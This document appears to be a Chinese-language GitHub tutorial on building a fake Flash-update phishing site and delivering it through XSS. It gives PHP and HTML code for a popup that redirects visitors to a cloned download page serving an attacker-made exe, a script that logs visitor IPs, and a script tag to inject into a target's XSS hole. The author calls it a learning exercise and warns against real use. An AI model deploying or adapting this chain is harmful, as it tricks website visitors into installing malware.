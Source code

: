 # 原版的无法实现自动收杆的效果，就简单改了一下

**好了，正文开始**

需要准备好的东西：域名、一台服务器、弹窗源码、鱼站源码以及做好的exe文件


## 第一步：在服务器上已经配置好NGINX+PHP的环境

省略步骤......


## 第二步：上传鱼站和制作好的exe文件
随便找个鱼站放上去

这里我使用的是x0rz4师傅开源的代码：`https://github.com/x0rz4/Flash_fishing`
然后打开index.html 将所有包含`www.flash.cn`的外链都删了(因为懒)，这样随便点也不会跳转到官方网站了(随意,你想怎么改都行)

最关键的是如何让下载的文件是你制作的, 就是后面的步骤了
修改`/config/flashVersion`这个文件基本上所有下载地址都在这里了，建议全部换成你的域名


创建一个目录`/cdm/latest/`, 这个路径是上面flashVersion中写的路径，用来放置exe文件

## 第三步：上传xss.html弹窗调用页面
主要用于后面的xss
```
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <script src='./flash.js'></script>
    </head>
    <body>
    </body>
</html>
```
## 第四步：上传弹窗代码

可以看到上面调用了 `flash.js`,我使用的是r00tSe7en师傅的开源弹窗代码：`https://github.com/r00tSe7en/Flash-Pop` , 因此上传这个flash.js

接着修改这个JS，搜索`onclick=window.location.href='https://www.se7ensec.cn/'>`  全JS代码只有这么一个

把这个域名更换成鱼站的地址127.0.0.1

## 第五步：上传收杆检测代码

xss1.php
```
<!-- xss.php的改版 -->
<?php
$xssPayload =  "window.location.href=\"https://127.0.0.1/xss.html\";";
$db = "botIPs.txt";

$ip = $_SERVER["HTTP_X_FORWARDED_FOR"];
$botIP = @$_GET['ip'];

/**
1、获取IP
2、判断是否存在对应文件
3、读取里面的内容
*/
// var_dump($_REQUEST);
// var_dump($_SERVER);
if(! $_REQUEST['ip']){
    $ip_content = file_get_contents($db);
    $ip_array = explode(PHP_EOL,$ip_content);
    if(! in_array(base64_encode($ip),$ip_array)){
		header('Content-type: text/javascript');
		echo $xssPayload;
    }
}else{
    if (!is_null($botIP)){
    	file_put_contents($db,base64_encode($botIP).PHP_EOL,FILE_APPEND);
    }
}
?>
```

## 第六步：插入目标

在目标xss漏洞存在的地方插入`<script type="text/javascript" src="https://127.0.0.1/xss1.php"></script>`

**姜太公钓鱼，愿者上钩**

# 总结

当所有的东西都配置完成后，你会发现毫无卵用，只要不是傻子一看就能看出来。

那为什么还要写呢? 纯属学习娱乐，原作者的自动收杆没整明白哪一步出了问题导致没复现出来，所以取个巧体验体验自动收杆的感觉。

因此切莫用于实战，否则你将每天过着规律的生活作息，吃着丰盛的美食以及做着充足的劳动。
所谓在规律中改造，秩序中生活，在潜移默化中重塑自我，在积极改造的路上奔向新生，迎接希望！！！

